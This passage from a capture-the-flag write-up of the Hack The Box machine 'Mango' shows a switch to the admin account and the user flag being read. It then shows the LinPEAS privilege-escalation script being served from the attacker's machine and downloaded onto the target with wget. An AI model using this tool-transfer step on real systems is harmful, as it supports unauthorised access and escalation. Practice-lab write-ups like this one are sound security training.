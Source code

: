 ```console
mango@mango:~$ su admin
Password: 
$ pwd
/home/mango
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
$ whoami
admin
$ cd ..
$ ls
admin  mango
$ cd admin
$ ls
user.txt
$ cat user.txt
79bf31c6c6eb38a8567832f7f8b47e92
```

## Root Flag

I typically use [LinEnum](https://github.com/rebootuser/LinEnum) as my go-to privesc tool, but I wanted to branch out and try some other tools. This time I am going to use [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and see what it gets me. 

First I need to get it on my local machine to pass it to the target box. Once I do that, I need to use the python3 version of `SimpleHTTPServer.py` called `http.server`. They function to my knowledge in basically the exact same way.

```console
root@discovery:~/htb/mango# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.162 - - [17/Feb/2020 16:52:26] "GET /linpeas.sh HTTP/1.1" 200 -
```
I've got that I need to get it on the remote machine:

```console
$ wget http://10.10.14.75:8000/linpeas.sh
--2020-02-17 21:53:17--  http://10.10.14.75:8000/linpeas.sh
Connecting to 10.10.14.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139464 (136K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                    100%[=================================================>] 136.20K   339KB/s    in 0.4s    

2020-02-17 21:53:18 (339 KB/s) - ‘linpeas.sh’ saved [139464/139464]

$ 
```
As with LinEnum, I will likely cut out a lot of the non-relevent information as I am pretty sure there will be a *ton* of output. One thing that I do like about it, is that it outputs privesc paths based on certainty -- which is both nice in that it saves time but may lead to an overreliance on it, rather than being good.
